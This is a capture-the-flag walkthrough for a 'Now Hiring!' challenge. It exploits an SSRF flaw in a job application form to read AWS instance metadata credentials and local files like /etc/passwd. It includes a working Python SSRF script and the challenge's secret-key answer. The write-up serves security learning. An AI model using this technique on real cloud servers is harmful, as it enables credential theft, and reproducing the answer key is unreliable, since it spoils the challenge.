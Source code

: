 # Now Hiring!

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [jackfrosttower website](https://apply.jackfrosttower.com/)<br/>
**Terminal hint**: [IMDS Exploration](../hints/h10.md)


## Objective

!!! question "Request"
    What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.


## Hints

??? hint "AWS IMDS Documentation"
    The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.


## Solution

As noted by Noxious O’Dor after solving the [IMDS Exploration](../hints/h10.md) terminal, *"anytime you see URL as an input, test for SSRF"*. So, let's head straight for the [application form](https://apply.jackfrosttower.com/?p=apply) and fill in some random values to see how the application behaves.

It turns out we only really need to fill out the `Name` field to submit the form, but if you also enter a URI in the `NLBI report` field the response will look different. For example, using the name *Alf the dyslexic elf* and http://169.254.169.254/latest will result in a confirmation message containing additional text and what appears to be a broken image.

=== ":material-web-off: Skipping the NLBI report"
    ![Leaving out the URL](../img/objectives/o10/no_imds_url.png){: class=border }

=== ":material-web-plus: Submitting an NLBI report URI"
    ![Submitting an IMDS URL](../img/objectives/o10/imds_url.png){: class=border }

Inspecting the network requests using our web browser's developer tools shows that the missing image actually has the same name we submitted via the form, `Alf the dyslexic elf.jpg`. It also shows that the request to retrieve the image returned an HTTP 200 response, meaning it must exist. Downloading [`Alf the dyslexic elf.jpg`](../artifacts/objectives/o10/Alf%20the%20dyslexic%20elf.jpg) using `curl` reveals that the file doesn't contain any image data at all, but the output from a request to the server's http://169.254.169.254/latest IMDS API endpoint.

![Inspecting the image](../img/objectives/o10/inspecting_the_image.png)

Now that we've confirmed the website is vulnerable to [SSRF](https://portswigger.net/web-security/ssrf) we can either keep using the form like we've done so far, use `curl` to manually submit the form and retrieve the image data, or write a [small script](../tools/objectives/o10/get_ssrf_data.py) that automates the form submission and image retrieval for either an IMDS API endpoint or a local file URI like file:///etc/passwd. 

??? example ":material-file-outline: get_ssrf_data.py"
    ```python linenums="1"
    #!/usr/bin/env python
    import requests
    import click


    @click.command()
    @click.option('-n', '--name', default="Alf the dyslexic elf", help='Your preferred name.')
    @click.option('-a', '--api-endpoint', default="/", help='The IMDS API endpoint to query.')
    @click.option('-f', '--file', help='The full path to a local file.')
    def cli(name: str, api_endpoint: str, file: str):
        url = "https://apply.jackfrosttower.com"

        # Create the file or IMDS URI to retrieve
        if file:
            message = f"local file {file}"
            uri = f"file://{file}"
        else:
            message = f"IMDS {api_endpoint}"
            uri = f"http://169.254.169.254{api_endpoint}"

        # Application form fields
        params = {
            'inputName': name,
            'inputEmail': "",
            'inputPhone': "",
            'resumeFile': "",
            'inputWorkSample': uri,
            'additionalInformation': "",
            'submit': "",
        }

        # Submit the form
        sess = requests.Session()
        resp = sess.get(url, params=params)

        # If the request was successful, download the JPG file and print the contents
        if resp.status_code == 200 and "recipients rejoice!" in resp.text:
            print("Form submission successful.")
            print(f"Retrieving {message}:")
            print(sess.get(f"{url}/images/{name}.jpg").text)
        else:
            print("Error submitting form.")


    if __name__ == '__main__':
        cli()
    ```

The key data we're after is stored under `/latest/meta-data/iam/security-credentials/{role_name}`, so we first need to request `/latest/meta-data/iam/security-credentials` and then use the role name in a followup request to retrieve all credential details.

![Running the script](../img/objectives/o10/run_script.png)

!!! done "Answer"
    CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX


!!! note "PHP application flaw"
    Using `python get_ssrf_data.py -f '/var/www/html/index.html'` to access the web application source at  `/var/www/html/index.html` we can see that the PHP code doesn't verify if an actual NLBI report URL was submitted and simply assumes that what is sent back is an image. The intent was to personalize the confirmation message by including the applicant's profile picture, but instead it introduced a significant vulnerability.

    ![PHP flaw](../img/objectives/o10/php_flaw.png)
